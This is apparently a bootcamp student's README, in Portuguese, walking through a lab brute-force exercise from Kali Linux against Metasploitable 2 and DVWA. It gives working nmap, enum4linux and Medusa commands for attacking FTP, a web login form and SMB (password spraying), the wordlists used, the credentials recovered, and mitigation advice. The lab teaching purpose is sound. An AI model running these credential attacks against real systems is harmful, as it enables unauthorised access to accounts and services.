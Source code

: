 # BootcampDIO-SantanderCiberseguranca2025
Simulação de ataque brute force utilizando Kali Linux e Metasploitable 2<br>
<br>
Kali Linux e Metasploitable 2 configurados na mesma rede (192.168.1.0/24) para se comunicarem (rodar o comando "ip a" ou "ifconfig" nas duas VMs para obter o IP de cada VM)<br>
IP Kali Linux: 192.168.1.4<br>
IP Metasploitable 2: 192.168.1.5<br>
<br>
ping feito do Kali Linux para o Metasploitable 2 com o objetivo de confirmar a conexão entre as VMs<br>Comando: ping -c 4 192.168.1.5 
<br>
1 etapa: enumeração de portas abertas | ferramenta usada: Nmap 7.95<br>Objetivo: identificar porta FTP aberta<br>Comando: nmap -sV -p 21,22,80,445,139 192.168.1.5
<br>
<br>
Portas abertas:<br>
21 - serviço: FTP - versão: vsftpd 2.3.4<br>
22 - serviço: SSH - versão: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)<br>
80 - serviço: HTTP - versão: Apach httpd 2.2.8<br>
139 - serviço: netbios-ssn - versão: Samba smbd 3.X - 4.X <br>
445 - serviço: netbios-ssn - versão: Samba smbd 3.X - 4.X <br>
<br>
Identificado que a porta FTP esta aberta usa-se o comando: "ftp (IP da VM Metasploitable)" para confirmar que o serviço esta ativo 
<br>
2 etapa: ataque brute force | ferramenta usada: Medusa v2.3
<br>
<br>
Criação de wordlists:
<br>
Para usernames: arquivo usernames.txt contendo as seguintes palavras: msfadmin, user, service, root, admin, test, guest, info, adm, administrator, ftp, admin123, 123admin e qwerty
<br>
Comando: echo -e 'msfadmin\nuser\nservice\nroot\nadmin\ntest\nguest\ninfo\nadm\nadministrator\nftp\nadmin123\n123admin\nqwerty' > usernames.txt 
<br>
Para senhas: arquivo pass.txt com as seguintes palavras: 123456, password, qwerty, msfadmin, admin, Welcome123, admin123, root, 123admin, pass123<br>
Comando: echo -e '123456\npassword\nqwerty\nmsfadmin\nadmin\nWelcome123\nadmin123\nroot\n123admin\npass123' > pass.txt<br>
<br>
Comando brute force: medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M ftp -t 10<br>
Resultado - usuario: msfadmin | senha: msfadmin<br>
<br>
- Brute force em formulário de login em sistema web (DVWA) -<br>
<br>
Comando:<br>
medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M http \<br>
-m PAGE:'/dvwa/login.php' \<br>
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \<br>
-m 'FAIL=Login failed' -t 10<br>
<br>
Resultado - usuario: admin | senha: password <br>
<br>
- Ataque em cadeia, enumeração smb + password spraying -<br>
<br>
Enumeração de usuários usando Enum4Linux:<br>
Comando: enum4linux -a 192.168.1.5 | tee enum4_output.txt <br>
<br>
Password spraying usando Medusa:<br>
Comando: medusa -h 192.168.1.5 -U usernames.txt -P pass.txt -M smbnt -t 2 -T 50<br>
<br>
Resultado - usuario: msfadmin | senha: msfadmin <br>
<br>
Verificando acesso ao smb:<br>
Comando: smbclient -L //192.168.1.5 -U msfadmin <br>
<br>
- Vulnerabilidades: senhas fracas e iguais ao campo user<br>
- Soluções: Implementar 2FA/MFA e recomendar ao usuário que utilize senhas fortes, bloqueio de IPs para múltiplas tentativas de logins, monitoramento de logs e segmentação da rede.<br>
- Recomendações para criação de senhas:<br>
mínimo de 12 caracteres, utlizar letras maiúsculas (A-Z) e minúsculas (a-z), utlizar símbolos (!, @, #, $, %, &, *), evitar informações pessoais e organizacionais.<br>






